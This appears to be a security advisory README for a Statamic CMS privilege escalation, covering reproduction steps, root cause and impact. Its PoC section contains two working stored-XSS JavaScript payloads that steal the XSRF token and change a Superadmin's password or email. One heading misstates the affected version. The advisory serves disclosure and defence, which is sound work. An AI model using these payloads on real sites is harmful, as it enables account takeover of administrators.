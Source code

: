 # GHSA-g59r-24g3-h7cm
Statamic Privilege Escalation PoC

> [!IMPORTANT]
> **Responsible Disclosure Notice**  
> This vulnerability was reported to the vendor/maintainer ([Statamic](https://github.com/statamic)) following a responsible disclosure process.  
> The maintainer was given more than **90 days** to acknowledge the security advisory and provide a fix, in line with industry-standard disclosure policies.  
> Despite multiple attempts to establish communication, there was **no cooperation, no response, and a clear lack of good will from the maintainer** to address the issue.
>  
> The **CVE has not yet been assigned solely due to the unresponsiveness of the maintainer**, not due to a lack of technical validity or impact.  
> The CVE request is currently in progress and will be finalized through public disclosure channels.


### Summary
There is a critical vulnerability in the Laravel-based content management system (CMS) Statamic that can be exploited to take over a Superadmin account. This issue comes from a combination of stored Cross-Site Scripting (XSS) vulnerabilities, which remain exploitable even in the latest version of the CMS. These vulnerabilities allow attackers to run malicious JavaScript in the victim's browser. A low-privileged user can inject harmful content into the CMS, setting a trap for the Superadmin. When the Superadmin accesses this content, the exploit runs in their session, enabling the attacker to gain higher privileges and potentially take over the system.

This problem is also related to the lack of proper server-side validation of the X-CSRF-TOKEN used in PATCH requests, which makes it easier for the attacker to change important account details like the Superadmin's password or email address.

This advisory explains the technical details, provides proof-of-concept exploits, and discusses the risks posed by these vulnerabilities, focusing on how the attack can be carried out.

### Vulnerability Overview
#### Severity: **Critical**
#### Affected Versions: **Up to and including the latest version 5.22.0**

This vulnerability is a chain attack that leverages stored XSS to escalate privileges within the CMS. It is essential to note that for this attack to be successful, the Superadmin must either click on a malicious link sent by an attacker or simply visit a compromised Collection or Taxonomy within the CMS. Once the Superadmin interacts with the infected content, the malicious JavaScript code is executed in their browser, leading to one of two potential outcomes:

1. **In versions ≤ 5.21.0**: The attacker can automatically change the Superadmin's password without requiring the current password, effectively locking the legitimate user out of their account.
2. **In version 5.22.0**: Although the password change mechanism has been secured, the attacker can still change the email address associated with the Superadmin account. This allows the attacker to initiate a password reset, gain control of the account, and access the system with the highest level of privileges.


### Steps to Reproduce

The following steps outline how to reproduce the vulnerability that allows for Superadmin account takeover via Stored Cross-Site Scripting (XSS) and insufficient X-CSRF-TOKEN validation:

1. **Create a Superadmin Account ("User1"):**
   - If this is a fresh installation, create a Superadmin account within the CMS. This account will be referred to as "User1."

2. **Create a Low-Privileged User ("User2"):**
   - Using the Superadmin account ("User1"), create a new user with low-level privileges, referred to as "User2."
   - Assign "User2" access to the Control Panel, the User list, and grant read-write permissions to Collections and/or Taxonomies.

3. **Initiate a Session as "User2":**
   - Log in as "User2" to the CMS.

4. **Inject Malicious Script:**
   - Create a new Collection or Taxonomy within the CMS as "User2."
   - Inject a malicious JavaScript payload into one of the fields that will be stored and rendered when viewed by the Superadmin.

5. **Trigger the Exploit:**
   - Wait for "User1" (the Superadmin) to access the compromised Collection or Taxonomy. This can be done by either:
     - Sending a phishing link that directs "User1" to the infected content.
     - Simply waiting for "User1" to browse the Collections or Taxonomies naturally.

6. **Observe the Outcome:**
   - Depending on the CMS version:
     - **Version ≤ 5.21.0:** The malicious script will change the Superadmin's password without requiring the current password, effectively locking the legitimate user out of their account.
     - **Version 5.22.0:** The malicious script will change the Superadmin's email address, allowing the attacker to initiate a password reset and gain control over the account.

These steps demonstrate how a low-privileged user can set up a trap for the Superadmin by exploiting the stored XSS vulnerability. The lack of proper server-side validation of the X-CSRF-TOKEN in PATCH requests makes it possible to carry out this attack, leading to a complete takeover of the Superadmin account.


### Details
The root cause of this vulnerability lies in insufficient input sanitization and validation across several components of the CMS. Specifically, the vulnerability allows for the injection of JavaScript code into forms used for creating or editing Collections, Taxonomies or Forms. These forms do not properly sanitize user input, allowing an attacker to store malicious scripts that execute when a Superadmin interacts with the compromised content.

In previous versions of the CMS, such as version 4.42.0, user inputs in certain views were not properly sanitized before being rendered on the page. For instance, in the `resources/views/partials/nav-main.blade.php` file, the variable `$item->name()` was rendered without adequate escaping or encoding. This lack of sanitization allowed attackers to inject arbitrary JavaScript code.

It looks like the vulnerability related to improper sanitization of user input, such as those found in version 4.42.0 of the Statamic CMS, is still present in the software, despite partial mitigations that have been implemented. In previous versions, like 4.42.0, user input in certain views, including the `resources/views/partials/nav-main.blade.php` file, were not adequately sanitized before being rendered on the page.

At the time of reporting the Multiple Stored Cross-Site Scripting vulnerability, version 4.42.0 was the latest available version of the Statamic CMS. Now, the software has been updated to version 5.22.0. While some improvements, such as the introduction of the `v-pre` directive, have been made to mitigate XSS risks in specific components, these mitigations appear to be incomplete. The underlying issue of inadequate input sanitization persists in other parts of the software.

For further details on the changes made, including the use of `v-pre`, please refer to the Reference section at the bottom of this Security Advisory. There is a link to a commit that shows the differences between certain versions of the affected file, highlighting the partial mitigation that was applied.

### PoC
#### Scenario 1: Superadmin Password Change (Version ≤ 5.21.0)
In versions prior to the latest update, the CMS's password change mechanism did not require the current password. This allows an attacker to execute a stored XSS payload that automatically changes the Superadmin's password. The attack can be triggered by the Superadmin merely visiting a compromised Collection or Taxonomy or clicking on a malicious link.

**Exploit:**

```javascript
{{constructor.constructor("(function(){function getXsrfToken(){var token=decodeURIComponent(document.cookie.match(/XSRF-TOKEN=([^;]+)/)[1]);return token.endsWith('%3D')?token.replace(/%3D$/, '='):token;}var req=new XMLHttpRequest();req.onload=function(){var changeReq=new XMLHttpRequest();changeReq.open('PATCH','http://0.0.0.0/cp/users/<Superadmin's UUID>/password',true);changeReq.setRequestHeader('Content-Type','application/json');changeReq.setRequestHeader('X-Requested-With','XMLHttpRequest');changeReq.setRequestHeader('X-XSRF-TOKEN',getXsrfToken());changeReq.send(JSON.stringify({current_password:null,password:'987654321',password_confirmation:'987654321'}));};req.open('GET','/cp/users/<Superadmin's UUID>/edit',true);req.send();})()")()}}
```

#### Scenario 2: Superadmin Email Address Change (Version ≤ 5.21.0)
In the latest version (5.22.0), the password change mechanism was hardened by requiring the current password. However, the stored XSS vulnerability still allows an attacker to change the email address associated with the Superadmin account. By altering the email address, the attacker can initiate a password reset process, gaining control over the account.

**Exploit:**

```javascript
{{constructor.constructor("(function(){function getXsrfToken(){var token=decodeURIComponent(document.cookie.match(/XSRF-TOKEN=([^;]+)/)[1]);return token.endsWith('%3D')?token.replace(/%3D$/, '='):token;}var req=new XMLHttpRequest();req.onload=function(){var changeReq=new XMLHttpRequest();changeReq.open('PATCH','http://0.0.0.0/cp/users/<Superadmin's UUID>',true);changeReq.setRequestHeader('Content-Type','application/json');changeReq.setRequestHeader('X-Requested-With','XMLHttpRequest');changeReq.setRequestHeader('X-XSRF-TOKEN',getXsrfToken());changeReq.send(JSON.stringify({name:'wojt',email:'wojtek@wojtek.com',roles:[],groups:[],id:'9f4d7960-bf66-4af4-8c30-b09eb24e06ea'}));};req.open('GET','/cp/users/<Superadmin's UUID>/edit',true);req.send();})()")()}}
```

### Impact
The successful exploitation of this vulnerability allows an attacker to gain full control over the Superadmin account, leading to:

- Complete administrative access to the CMS.
- Potential for lateral movement within the application.
- Significant risk of data leakage, modification, or deletion.
- Undermining the integrity and confidentiality of the entire Statamic CMS ecosystem.

### References
- https://github.com/statamic/cms/pull/9256/commits/d9f1e916556e749a03fba6163de6cd67c3830ffd

---

**PoC video:**

[![Watch the PoC on YouTube](https://img.youtube.com/vi/qx8axpmTz1E/maxresdefault.jpg)](https://www.youtube.com/watch?v=qx8axpmTz1E)

